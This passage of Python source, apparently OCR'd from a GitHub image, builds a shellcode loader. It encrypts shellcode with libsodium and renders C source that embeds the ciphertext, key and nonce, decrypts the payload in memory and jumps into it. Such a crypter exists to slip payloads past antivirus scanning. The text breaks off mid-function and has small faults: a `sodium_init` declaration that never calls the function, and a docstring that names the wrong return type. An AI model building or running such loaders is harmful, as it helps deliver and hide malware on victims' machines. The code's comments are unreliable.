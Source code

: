 ```python

from jinja2 import Template
import nacl.secret
import nacl.utils

C_TEMPLATE = Template("""
#include <sodium.h>


const unsigned char ciphertext[{{clen + 1}}] = "{{c}}";
unsigned long long ciphertext_len = {{clen}};

const unsigned char key[crypto_secretbox_KEYBYTES+1] = "{{k}}";
const unsigned char nonce[crypto_secretbox_NONCEBYTES+1] = "{{n}}";

unsigned char output[{{mlen}}];


int main(void) {

    int (*call_output)() = (int(*)())output;

    int sodium_init();
    if (crypto_secretbox_open_easy(output, ciphertext, ciphertext_len, nonce, key) != 0) {
        return 1;
    }

    call_output();

    return 0;
}

""")


def array_hex_str_to_ints(list_of_hex_strings):
    """This function accepts a list of strings containing hex digits and
    converts each item into bytes.
    For example, [21, 41, 42, 43] is converted into [b'!', b'A', b'B', b'C']
    """

    for item in range(0, len(list_of_hex_strings)):
        list_of_hex_strings[item] = int(list_of_hex_strings[item], 16)

    return list_of_hex_strings


def process_shellcode(shellcode_input):
    """Convert a string of hex values formatted as C-style hex escapes
    into an array of integers.
    Returns bytes"""

    split_shellcode = shellcode_input.split("x")
    split_shellcode = split_shellcode[1::]  # Remove bogus empty string at start of array

    processed_shellcode = bytes(array_hex_str_to_ints(split_shellcode))

    return processed_shellcode


def c_format_binary_data(data):
    hex_escaped = ''
    for byte in data:
```